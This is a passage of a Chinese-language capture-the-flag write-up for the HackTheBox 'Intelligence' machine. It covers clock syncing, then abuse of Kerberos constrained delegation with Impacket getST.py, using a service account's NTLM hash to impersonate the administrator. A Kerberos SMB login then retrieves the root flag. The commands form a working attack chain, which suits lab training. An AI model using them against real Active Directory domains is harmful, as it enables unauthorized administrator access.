PS C:\Program Files\Oracle\VirtualBox> .\VBoxManage.exe setextradata "Kali-Linux-2021.3-vbox-amd64" "VBoxInternal/Devices/VMMDev/0/Config/GetHostTimeDisabled" 1
```

现在启动虚拟机备份并安装 ntupdate 和 chrony:

```
┌──(root💀kali)-[~]
└─# apt install ntpdate chronyReading package lists... Done
Building dependency tree... Done
Reading state information... Done
chrony is already the newest version (4.1-3).
ntpdate is already the newest version (1:4.2.8p15+dfsg-1).
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
```

现在将 Kali 设置为使用 NTP 作为其时间服务器，并从包装盒中进行更新:

```
┌──(root💀kali)-[~]
└─# timedatectl set-ntp true

┌──(root💀kali)-[~]
└─# ntpdate 10.10.10.248 8 Oct 22:52:49 ntpdate[1268]: step time server 10.10.10.248 offset +26079.737476 sec
```

我们看到我们的时钟被改变了。现在我们再次尝试 getST:

```
┌──(root💀kali)-[~]
└─# python3 /usr/share/doc/python3-impacket/examples/getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :d170ae19de30439df55d6430e12dd621 -impersonate administratorImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache

┌──(root💀kali)-[~]
└─# export KRB5CCNAME=Administrator.ccache
```

# 根标志

这次成功了。我们最终可以使用 Impacket smbclient 脚本以管理员身份进行连接:

```
┌──(root💀kali)-[~]
└─# impacket-smbclient Administrator@dc.intelligence.htb -k -no-passImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[-] [Errno Connection error (dc.intelligence.htb:445)] [Errno -2] Name or service not known
```

另一个问题！这次很简单，我忘记了将 DC 添加到我的 hosts 文件中:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# echo "10.10.10.248 dc.intelligence.htb" >> /etc/hosts
```

再试最后一次:

```
┌──(root💀kali)-[~]
└─# impacket-smbclient Administrator@dc.intelligence.htb -k -no-passImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation
Type help for list of commands
# shares
ADMIN$
C$
IPC$
IT
NETLOGON
SYSVOL
Users
# cd Users
# cd Administrator
# cd Desktop
# ls
drw-rw-rw-          0  Mon Apr 19 01:51:57 2021 .
drw-rw-rw-          0  Mon Apr 19 01:51:57 2021 ..
-rw-rw-rw-        282  Mon Apr 19 01:40:10 2021 desktop.ini
-rw-rw-rw-         34  Fri Oct  8 12:56:30 2021 root.txt
# get root.txt
# exit

┌──(root💀kali)-[~]
└─# cat root.txt                                     
<HIDDEN>
```

我们终于找到了箱子。这对我来说很难，我需要做更多的窗口框！

下次见。

如果你喜欢这篇文章，请给我一个掌声。

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2021 年 11 月 24 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-intelligence)*。*